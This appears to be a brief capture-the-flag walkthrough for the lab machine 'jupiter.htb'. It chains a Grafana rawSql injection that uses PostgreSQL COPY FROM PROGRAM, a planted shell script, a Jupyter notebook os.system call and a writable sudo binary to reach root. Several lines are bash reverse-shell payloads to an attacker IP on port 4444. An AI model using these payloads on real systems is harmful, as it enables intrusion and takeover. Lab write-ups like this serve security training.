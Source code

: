 find the subdomain: `kiosk.jupiter.htb`
intercept the post request to `/api/ds/query`
change `rawSql` to ```"CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'bash -c \"bash -i >& /dev/tcp/10.10.<ip>/4444 0>&1\"'"; to get a reverse shell.```

find `network-simulation.yml` at `/dev/shm`
create a file at /dev/shm/reverse.sh
```bash
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.10.<ip>/4444 0>&1"
```
`chmod 777 reverse.sh`
change client>proceses>path in `network-simulation.yml` to `/dev/shm/reverse.sh` get rid of the args to get juno.

do `id` to find out juno in `science` group which gives access to `/opt/solar-flares/`. do `grep -rie token` in `/opt/solar-flares/logs/` to find the right token of jupyter in the logs based on date.
redirect port 8888 and access jupyter web interface with the provided token.
open `flares.ipynb` in jupyter web interface which allows running python code.

Run
```python
import os; os.system('bash -c "bash -i >& /dev/tcp/10.10.<ip>/4444 0>&1"');
```
to get shell as jovian.

do `sudo -ll` to see jovian can run `/usr/local/bin/sattrack` as root.

doing `ls -l /usr/local/bin/sattrack` reveal jovian can write to the file.

do
```bash
cp /bin/bash /usr/local/bin/sattrack
sudo /usr/local/bin/sattrack
```

to get root shell.

